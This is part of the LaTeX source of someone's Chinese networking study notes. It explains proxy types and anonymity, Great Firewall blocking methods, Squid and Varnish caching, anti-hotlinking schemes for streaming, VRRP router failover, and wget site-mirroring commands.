\item[用途]正向代理的典型用途是为在防火墙内的局域网客户端提供访问Internet的途径。正向代理还可以使用缓冲特性减少网络使用率。反向代理的典型用途是将防火墙后面的服务器提供给Internet用户访问。反向代理还可以为后端的多台服务器提供负载平衡,或为后端较慢的服务器提供缓冲服务。另外,反向代理还可以启用高级URL策略和管理技术,从而使处于不同web服务器系统的web页面同时存在于同一个URL空间下。
\item[安全性]正向代理允许客户端通过它访问任意网站并且隐藏客户端自身,因此你必须采取安全措施以确保仅为经过授权的客户端提供服务。
反向代理对外都是透明的,访问者并不知道自己访问的是一个代理。
\end{description}

\subsection{翻墙}
长城防火墙(The Great Firewall)屏蔽网站有以下几种方式:
\begin{enumerate}
\item DNS污染
\item 特定IP地址屏蔽
\item TCP连接重置 
\item 间歇性完全封锁
\end{enumerate}

用户和代理服务器之间建立VPN来传输加密数据,数据又通过代理转发给目的服务器,从而实现翻墙访问。


\subsection{匿名}

代理服务器根据匿名程度区分:
\begin{description}
\item[高度匿名代理]高度匿名代理会将我们的数据包原封不动的转发,在服务端看来就好像真的是一个普通客户端在访问,而记录的IP是代理服务器的IP。
\item[普通匿名代理]普通匿名代理会在数据包上做一些改动,服务端上有可能发现这是个代理服务器,也有一定几率追查到你的真实IP。
代理服务器通常会加入的HTTP头有HTTP\_VIA和HTTP\_X\_FORWARDED\_FOR。
\item[透明代理]透明代理不但改动了我们的数据包,还会告诉服务器你的真实IP。这种代理除了能用缓存技术帮你提高浏览速度,能用内容过滤提高你的安全性之外,并无其他显著作用。(最常见的例子是:内网中的硬件防火墙)。透明代理的意思是客户端根本不需要知道有代理服务器的存在,它改编你的request fields(报文),并会传送真实IP,多用于路由器的NAT转发中。注意,加密的透明代理则是属于匿名代理,意思是不用设置使用代理了,例如Garden 2程序。
\item[间谍代理]间谍代理指组织或个人创建的,用于记录使用者传输的数据,然后进行研究、监控等目的代理服务器。
\end{description}

















%!Mode:: "TeX:UTF-8"
\section{Resin}
Resin是CAUCHO公司的产品,是一个非常流行的application server,对servlet和JSP提供了良好的支持,性能也比较优良,resin自身采用JAVA语言开发。

Resin是CAUCHO公司的产品,是一个非常流行的支持servlets和jsp的引擎,速度非常快。Resin本身包含了一个支持HTTP/1.1的WEB服务器。虽然它可以显示动态内容,但是它显示静态内容的能力也非常强,速度直逼APACHESERVER。许多站点都是使用该WEB服务器构建的。

Resin也可以和许多其他的WEB服务器一起工作,比如Apache server和IIS等。Resin支持Servlets 2.3标准和JSP 1.2标准。熟悉ASP和PHP的用户可以发现用Resin来进行JSP编程是件很容易的事情。

Resin支持负载平衡(Load balancing),可以增加WEB站点的可靠性。方法是增加服务器的数量。比如一台SERVER的错误率是1\%的话,那么支持负载平衡的两个Resin服务器就可以使错误率降到0.01\%。





%!Mode:: "TeX:UTF-8"

\section{Squid}

Squid Cache(简称为Squid)是HTTP代理服务器软件。Squid用途广泛的,可以作为缓存服务器,可以过滤流量帮助网络安全,也可以作为代理服务器链中的一环,向上级代理转发数据或直接连接互联网。Squid程序在Unix一类系统运行。由于它是开源软件,有网站修改Squid的源代码,编译为原生Windows版;用户也可在Windows里安装Cygwin,然后在Cygwin里编译Squid。
\begin{figure}[ht]
	\begin{center}
		\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/Network/LvsPlusSquidPlusNginx.jpg}
		\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/Network/Nginx2Squid2Tomcat.jpg}
	\caption{Squid用作缓存服务器}
	\label{fig:LvsPlusSquidPlusNginx}
	\end{center}
\end{figure}


Squid的发展历史相当悠久,功能也相当完善。除了HTTP外,对于FTP与HTTPS的支持也相当好,在3.0测试版中也支持了IPv6。但是Squid的上级代理不能使用SOCKS协议。




\clearpage




%!Mode:: "TeX:UTF-8"
\section{流媒体防盗链技术}

《CDN技术详解》一书6.4.6节列举出了7种流媒体防盗链技术:

\begin{enumerate}
\item HTTP Referer检查
\item 验证登陆信息。登陆Session ID在Cookie中,也可将该登陆信息提取出来植入URL。这个方法不适合免登陆观看的视频内容。注意防盗链不是限制用户的获取,而是限制用户在其他网站获取。
\item Cookie中预先存入验证信息,比如一个字符串或数字
\item 使用Post方法下载。将下载链接换成一个表单和一个按钮,用户点击按钮。服务器验证是否是Post方法。\textit{我的理解是,点击URL后返回的是一个表单。盗链网站没法对表单进行手动处理。}
\item 使用图形验证码。\textit{我的理解是,同上一条类似,盗链系统无法做到让用户进行手动操作}。
\item 使用动态密钥。点击资源后,服务器计算一个临时的key,植入URL。用户再利用该URL进行访问。\textit{那么这个URL怎么返回给用户?通过302?盗链网站处理不了302?亦或是初次点击网址时返回的是Javascript代码?}
\item 在内容中插入随机字节。比如mp3的tag区,rar、zip的备注区,这样整个文件的哈希值会改变。其实是上一条方法的特例,即URL植入的临时key是哈希值。这个key既能用于合法性校验,又能进行哈希校验。\textit{服务器为什么要执行哈希校验?这不是客户端干的事情吗?}
\end{enumerate}


蓝汛HPCC实现了通用时间戳防盗链模块,我的理解是,URL中的时间戳那段每隔一段时间就更新一次,盗链网站无法做到及时更新。
更改URL意味着同时改变前端显示的URL和服务器记录的URL。客户端看到的URL未必是写死在html中的,可能是根据时间算出来的,为动态URL。
合法网站能够动态计算URL,加入时间戳,而非法网站只是点击一个死的URL。同理,服务器也不存一个死的url,也只是验证用户发来的URL。

湖南卫视要求蓝汛实现的防盗链算法中,需要在URL中植入时间戳和一段key,这个key是对路径、时间戳和密钥的哈希。密钥是一段简单的字符串,几乎是英文。如何把密钥传给客户端?太不安全。可能需要在点播时另外再建立一个连接,将原始URL(其实就是告诉服务端我想看哪个视频)发给服务器,服务器在服务端算好密钥然后生成新的URL返回给客户端,客户端用新的URL而非原始URL进行访问。但湖南卫视并未让蓝汛计算这个key,只让他验证这个key,说明这个key是在客户端计算的。



搜狐的服务端防盗链算法中,要求如果发现包含某个非法字符串,就返回404。我猜测其中原理是写死的网址都是包含这个非法串的,但是如果是在合法的网页下点击,实际发出的URL会去掉这个非法串。


综上,防盗链主要用到三种思路:
\begin{enumerate}
\item 检查盗链网站的HTTP referer。据说网页播放器不会传递Referer,不能使用这个手段。
\item 检查盗链网站的Cookie。不适合开放的资源。
\item 假定盗链网站不支持某些操作,如输入图形验证码,点击表单页的按钮,redirect到新的URL(?),这些操作只有用户+浏览器可以执行。\textit{如果盗链网站硬是模仿浏览器行为,也没办法,只能在于减少而非杜绝盗链}
\item 动态网页生成动态URL。不属于《CDN技术详解》上的七条。\textit{动态URL的生成原理是使用了JS?}
\end{enumerate}



%!Mode:: "TeX:UTF-8"
\section{Varnish}
Varnish是一款高性能的开源HTTP加速器,挪威最大的在线报纸 Verdens Gang 使用3台Varnish代替了原来的12台Squid,性能比以前更好。
Varnish 的作者Poul-Henning Kamp是FreeBSD的内核开发者之一,他认为现在的计算机比起1975年已经复杂许多。在1975年时,储存媒介只有两种:内存与硬盘。但现在计算机系统的内存除了主存外,还包括了CPU内的L1、L2,甚至有L3快取。硬盘上也有自己的快取装置,因此Squid Cache自行处理物件替换的架构不可能得知这些情况而做到最佳化,但操作系统可以得知这些情况,所以这部份的工作应该交给操作系统处理,这就是 Varnish cache设计架构。

Varnish is an HTTP accelerator designed for content-heavy dynamic web sites. In contrast to other web accelerators, such as Squid, which began life as a client-side cache, or Apache and nginx, which are primarily origin servers, Varnish was designed as an HTTP accelerator. Varnish is focused exclusively on HTTP, unlike other proxy servers that often support FTP, SMTP and other network protocols.

Varnish stores data in virtual memory and leaves the task of deciding what is stored in memory and what gets paged out to disk to the operating system. This helps avoid the situation where the operating system starts caching data while it is moved to disk by the application.

Furthermore, Varnish is heavily threaded, with each client connection being handled by a separate worker thread. When the configured limit on the number of active worker threads is reached, incoming connections are placed in an overflow queue; when this queue reaches its configured limit incoming connections will be rejected.

The principal configuration mechanism is Varnish Configuration Language (VCL), a domain-specific language (DSL) used to write hooks that are called at critical points in the handling of each request. Most policy decisions are left to VCL code, making Varnish more configurable and adaptable than most other HTTP accelerators. When a VCL script is loaded, it is translated to C, compiled to a shared object by the system compiler, and loaded directly into the accelerator.

A number of run-time parameters control things such as the maximum and minimum number of worker threads, various timeouts, etc. A command-line management interface allows these parameters to be modified, and new VCL scripts to be compiled, loaded and activated, without restarting the accelerator.

In order to reduce the number of system calls in the fast path to a minimum, log data is stored in shared memory, and the task of filtering, formatting and writing log data to disk is delegated to a separate application.


Varnish是一个轻量级的Cache和反向代理软件,先进的设计理念和成熟的设计框架是Varnish的主要特点,现在的Varnish总共代码量不大,功能上虽然在不断改进,但是还需要继续丰富和加强。
下面总结了Varnish的一些特点:\\
 (1)是基于内存缓存,重启后数据将消失。\\
 (2)利用虚拟内存方式,io性能好。\\
 (3)支持设置0~60秒内的精确缓存时间。\\
 (4)VCL配置管理比较灵活。\\
 (5)32位机器上缓存文件大小为最大2G。\\
 (6)具有强大的管理功能,例如top,stat,admin,list等。\\
 (7)状态机设计巧妙,结构清晰。\\
 (8)利用二叉堆管理缓存文件,达到积极删除目的。\\
 

Squid是一个高性能的代理缓存服务器,它和varnish之间有诸多的异同点,这里分析如下:
 下面是他们之间的相同点:(1)都是一个反向代理服务器, (2)都是开源软件。
 
 下面是它们的不同点,也是Varnish的优点:\\
 (1)Varnish的稳定性很高,两者在完成相同负荷的工作时,Squid服务器发生故障的几率要高于Varnish,因为使用Squid要经常重启。\\
 (2)Varnish访问速度更快,Varnish采用了“Visual Page Cache”技术,所有缓存数据都直接从内存读取,而squid是从硬盘读取,因而Varnish在访问速度方面会更快。\\
 (3)Varnish可以支持更多的并发连接,因为Varnish的TCP连接释放要比Squid快。因而在高并发连接情况下可以支持更多TCP连接。\\
 (4)Varnish可以通过管理端口,使用正则表达式批量的清除部分缓存,而Squid是做不到的。\\
 当然,与传统的Squid相比,Varnish也是有缺点的,列举如下:\\
 (1)varnish在高并发状态下CPU、IO、内存等资源开销都高于Squid。\\
 (2)varnish进程一旦Hang、Crash或者重启,缓存数据都会从内存中完全释放,此时所有请求都会发送到后端服务器,在高并发情况下,会给后端服务器造成很大压力。\\



%!Mode:: "TeX:UTF-8"
\section{VRRP}
VRRP(Virtual Router Redundancy Protocol)协议是用于实现路由器冗余的协议,最新协议在RFC3768中定义,原来的定义RFC2338被废除,新协议相对还简化了一些功能。

VRRP协议是为消除在静态缺省路由环境下的缺省路由器单点故障引起的网络失效而设计的主备模式的协议,使得在发生故障而进行设备功能切换时可以不影响内外数据通信,不需要再修改内部网络的网络参数。VRRP协议需要具有IP地址备份,优先路由选择,减少不必要的路由器间通信等功能。

 VRRP协议将两台或多台路由器设备虚拟成一个设备,对外提供虚拟路由器IP(一个或多个),而在路由器组内部,如果实际拥有这个对外IP的路由器如果工作正常的话就是MASTER,或者是通过算法选举产生,MASTER实现针对虚拟路由器IP的各种网络功能,如ARP请求,ICMP,以及数据的转发等;其他设备不拥有该IP,状态是BACKUP,除了接收MASTER的VRRP状态通告信息外,不执行对外的网络功能。当主机失效时,BACKUP将接管原先MASTER的网络功能。

 配置VRRP协议时需要配置每个路由器的虚拟路由器ID(VRID)和优先权值,使用VRID将路由器进行分组,具有相同VRID值的路由器为同一个组,VRID是一个0~255的正整数;同一组中的路由器通过使用优先权值来选举MASTER,优先权大者为MASTER,优先权也是一个0~255的正整数。

 VRRP协议使用多播数据来传输VRRP数据,VRRP数据使用特殊的虚拟源MAC地址发送数据而不是自身网卡的MAC地址,VRRP运行时只有MASTER路由器定时发送VRRP通告信息,表示MASTER工作正常以及虚拟路由器IP(组),BACKUP只接收VRRP数据,不发送数据,如果一定时间内没有接收到MASTER的通告信息,各BACKUP将宣告自己成为MASTER,发送通告信息,重新进行MASTER选举状态。

MASTER选举过程:\\
如果对外的虚拟路由器IP就是路由器本身配置的IP地址的话,该路由器始终都是MASTER;
否则如果不具备虚拟IP的话,将进行MASTER选举,各路由器都宣告自己是MASTER,发送VRRP通告信息;
如果收到其他机器的发来的通告信息的优先级比自己高,将转回BACKUP状态;
如果优先级相等的话,将比较路由器的实际IP,IP值较大的优先权高;
不过如果对外的虚拟路由器IP就是路由器本身的IP的话,该路由器始终将是MASTER,这时的优先级值为255。

VRRP协议状态比较简单,就三种状态,初始化,主机,备份机。

\begin{verbatim}
                      +---------------+
           +--------->|               |<-------------+
           |          |  Initialize   |              |
           |   +------|               |----------+   |
           |   |      +---------------+          |   |
           |   |                                 |   |
           |   V                                 V   |
   +---------------+                       +---------------+
   |               |---------------------->|               |
   |    Master     |                       |    Backup     |
   |               |<----------------------|               |
   +---------------+                       +---------------+
\end{verbatim}
   
   \begin{description}
   \item[初始化]路由器启动时,如果路由器的优先级是255(最高优先级,路由器拥有路由器地址),要发送VRRP通告信息,并发送广播ARP信息通告路由器IP地址对应的MAC地址为路由虚拟MAC,设置通告信息定时器准备定时发送VRRP通告信息,转为MASTER状态;
否则进入BACKUP状态,设置定时器检查定时检查是否收到MASTER的通告信息。
\item[主(master)机]主机状态下的路由器要完成如下功能:
 设置定时通告定时器;
 用VRRP虚拟MAC地址响应路由器IP地址的ARP请求;
 转发目的MAC是VRRP虚拟MAC的数据包;
 如果是虚拟路由器IP的拥有者,将接受目的地址是虚拟路由器IP的数据包,否则丢弃;
 当收到shutdown的事件时删除定时通告定时器,发送优先权级为0的通告包,转初始化状态;
 如果定时通告定时器超时时,发送VRRP通告信息;
 收到VRRP通告信息时,如果优先权为0,发送VRRP通告信息;否则判断数据的优先级是否高于本机,或相等而且实际IP地址大于本地实际IP,设置定时通告定时器,复位主机超时定时器,转BACKUP状态;否则的话,丢弃该通告包;
\item[备机] 备机状态下的路由器要实现以下功能:
 设置主机超时定时器;
 不能响应针对虚拟路由器IP的ARP请求信息;
 丢弃所有目的MAC地址是虚拟路由器MAC地址的数据包;
 不接受目的是虚拟路由器IP的所有数据包;
 当收到shutdown的事件时删除主机超时定时器,转初始化状态;
 主机超时定时器超时的时候,发送VRRP通告信息,广播ARP地址信息,转MASTER状态;
 收到VRRP通告信息时,如果优先权为0,表示进入MASTER选举;否则判断数据的优先级是否高于本机,如果高的话承认MASTER有效,复位主机超时定时器;否则的话,丢弃该通告包;
\end{description}


当内部主机通过ARP查询虚拟路由器IP地址对应的MAC地址时,MASTER路由器回复的MAC地址为虚拟的VRRP的MAC地址,而不是实际网卡的MAC地址,这样在路由器切换时让内网机器觉察不到;而在路由器重新启动时,不能主动发送本机网卡的实际MAC地址。如果虚拟路由器开启的ARP代理(proxy\_arp)功能,代理的ARP回应也回应VRRP虚拟MAC地址。

VRRP应用举例:\\

\begin{verbatim}
            +-----------+      +-----------+
            |   Rtr1    |      |   Rtr2    |
            |(MR VRID=1)|      |(BR VRID=1)|
            |(BR VRID=2)|      |(MR VRID=2)|
    VRID=1  +-----------+      +-----------+  VRID=2
    IP A ---------->*            *<---------- IP B
                    |            |
                    |            |
  ------------------+------------+-----+--------+--------+--------+--
                                       ^        ^        ^        ^
                                       |        |        |        |
                                     (IP A)   (IP A)   (IP B)   (IP B)
                                       |        |        |        |
                                    +--+--+  +--+--+  +--+--+  +--+--+
                                    |  H1 |  |  H2 |  |  H3 |  |  H4 |
                                    +-----+  +-----+  +--+--+  +--+--+
     Legend:
              ---+---+---+--  =  Ethernet, Token Ring, or FDDI
                           H  =  Host computer
                          MR  =  Master Router
                          BR  =  Backup Router
                           *  =  IP Address
                        (IP)  =  default router for hosts
\end{verbatim}

这是通常VRRP使用拓扑,两台路由器运行VRRP互为备份,路由器1作为VRID组1的MASTER,IP地址A,VRID组2的BACKUP,路由器2作为VRID组2的MASTER,IP地址B,VRID组1的BACKUP,内部网络中一部分机器的缺省网关地址是IP地址A,一部分是IP地址B,正常情况下以A为网关的数据将走路由器1,以B为网关的数据将走路由器2,如果一台路由器发生故障,所有数据将走另一台路由器。












\section{Web开发技术}


Python Web开发框架主要有Django, tornado,web2py, web,py等。

Cinatra为高性能现代C++ Web框架。

\subsection{HTML5}
HTML5支持的视频格式包括:mp4,ogg,webm。支持音频格式Ogg vorbis,mp3,wav。

\subsection{开发平台}


Baas:
\begin{verbatim}
https://leancloud.cn/
\end{verbatim}

图床:
\begin{verbatim}
http://tuchuang.org/
http://yotuku.cn/
http://m.yea.im/
http://www.poco.cn/
http://photo.weibo.com/
\end{verbatim}


\subsection{Django}


\begin{verbatim}
pip install mysql-python
\end{verbatim}




%!Mode:: "TeX:UTF-8"
\section{Web前端知识}
HTML5支持的视频格式包括:mp4,ogg,webm。支持音频格式Ogg vorbis,mp3,wav。


%!Mode:: "TeX:UTF-8"
\section{wget下载网站}
例如:
\begin{lstlisting}
wget -r -p -np -k http://www.21cn.com
wget --ftp-user=... --ftp-password=PASS  -r -p -np -k ftp://www.21cn.com
wget -r -p -np -k http://192.168.1.199/svn/OCTEON-SDK/branches/2012-03-27/OCTEON-SDK/docs/ --user=limz --password=123456
\end{lstlisting}





\bibliographystyle{unsrt}
\bibliography{thebib}



\end{document}
